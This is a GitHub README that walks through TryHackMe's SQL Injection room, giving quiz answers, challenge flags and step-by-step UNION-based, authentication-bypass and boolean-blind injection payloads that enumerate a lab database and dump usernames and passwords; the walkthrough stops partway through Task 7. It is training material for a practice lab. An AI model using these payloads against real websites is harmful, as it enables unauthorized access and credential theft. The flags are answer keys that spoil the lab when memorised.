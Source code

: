 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>
We get all the columns name of `stuff_users` table

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>

## Task 6: Blind SQLi - Authentication Bypass
### Q: What is the flag after completing level two? (and moving to level 3)
    username anything and password field ' OR 1=1;--
![sqli in password](images/16-sqli-in-pwd.png)<br/>
![next button](images/17-click-next.png)<br/>
#### A: `THM{SQL_INJECTION_9581}` :heavy_check_mark:<br/>


## Task 7: Blind SQLi - Boolean Based
### Q: What is the flag after completing level three?
    admin123' UNION SELECT 1;-- 
![incorrent column](images/18-incorrect-column.png)<br/>
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns.<br/>

    admin123' UNION SELECT 1,2,3;-- 
![Column error fixed](images/19-column-error-fixed.png)<br/>
Now that our number of columns has been established, we can work on the  enumeration of the database.<br/>

    admin123' UNION SELECT 1,2,3 where database() like 's%';-- 
![Get db name](images/20-get-database-name.png)<br/>
After many tryed i've found full database name, which is `sqli_three`<br/>

Now we need to enumerate `table names` using a similar method.
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
![table name](images/21-table-name.png)<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
![full table name](images/22-full-table-name.png)<br/>
After many tryed i've found full table name, which is `users`<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME !='%username%'; ---
![column name](images/23-column-name-found.png)<br/>